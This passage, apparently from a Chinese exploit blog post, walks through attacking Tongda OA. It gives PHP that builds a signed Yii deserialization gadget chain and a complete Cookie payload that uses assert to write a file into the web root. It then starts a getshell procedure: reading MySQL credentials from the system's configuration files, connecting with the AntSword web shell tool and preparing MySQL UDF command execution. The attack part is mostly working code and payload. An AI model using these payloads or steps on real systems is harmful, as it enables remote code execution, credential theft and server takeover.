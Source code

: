 ```php
            $this->_dataReader = new DataReader();
        }
    }
}
namespace {
    use yii\db\BatchQueryResult;
    $data = serialize(new BatchQueryResult());
    $crypt = hash_hmac("sha256",$data,"tdide2",false);
    $data = urlencode($data);
    $payload = $crypt . $data;
    echo $payload;
}
```
Cookie头传入即可
```
Cookie: _GET=0df0e27ad82ee48e0e8b8f4dd3d721213d303a557ba317ccb7c29c0419dc575bO%3A23%3A%22yii%5Cdb%5CBatchQueryResult%22%3A1%3A%7Bs%3A36%3A%22%00yii%5Cdb%5CBatchQueryResult%00_dataReader%22%3BO%3A17%3A%22yii%5Cdb%5CDataReader%22%3A1%3A%7Bs%3A29%3A%22%00yii%5Cdb%5CDataReader%00_statement%22%3BO%3A20%3A%22yii%5Credis%5CConnection%22%3A4%3A%7Bs%3A13%3A%22redisCommands%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A12%3A%22CLOSE+CURSOR%22%3B%7Ds%3A8%3A%22database%22%3BN%3Bs%3A4%3A%22port%22%3Bi%3A3336%3Bs%3A27%3A%22%00yii%5Cbase%5CComponent%00_events%22%3Ba%3A1%3A%7Bs%3A9%3A%22afterOpen%22%3Ba%3A1%3A%7Bi%3A0%3Ba%3A2%3A%7Bi%3A0%3Ba%3A2%3A%7Bi%3A0%3BO%3A21%3A%22yii%5Crest%5CCreateAction%22%3A2%3A%7Bs%3A11%3A%22checkAccess%22%3Bs%3A6%3A%22assert%22%3Bs%3A2%3A%22id%22%3Bs%3A36%3A%22file_put_contents%28%27test.php%27%2C%27test%27%29%22%3B%7Di%3A1%3Bs%3A3%3A%22run%22%3B%7Di%3A1%3Bs%3A1%3A%22a%22%3B%7D%7D%7D%7D%7D%7D
```
![](https://img-blog.csdnimg.cn/1420e37eaa6a49198ed3fc931ae4e6db.png)

写入的文件路径为`/general/appbuilder/web/test.php`

### Getshell
通达在安装时会默认配置 disable_functions 选项，禁用了常见的命令执行函数，并且通达OA一般都是 Windows 环境，大多数方法都不适用，后续版本中也关闭了COM组件，所以要找到一个新的姿势
```php
var_dump(get_cfg_var("disable_functions"));
```
得到
```
exec,shell_exec,system,passthru,proc_open,show_source,phpinfo,popen,dl,eval,proc_terminate,touch,escapeshellcmd,escapeshellarg
```
最终考虑使用 MYSQL UDF 来执行命令

找到通达OA的数据库配置文件`webroot/inc/oa_config.php`，通达OA的源码文件默认是加密的，但是配置文件是不加密的
![](https://img-blog.csdnimg.cn/2ce43227cf7b4b4b9ca31bd0b6c4f600.png)

也可以从`mysql5/my.ini`内找到 mysql 密码
![](https://img-blog.csdnimg.cn/23aa04ccec2541c7a0b907d0d5d57a04.png)

蚁剑连上数据库，先看一下插件目录
```sql
show variables like '%plugin%';
```
![](https://img-blog.csdnimg.cn/12807ee2415746e797d213847500bf98.png)
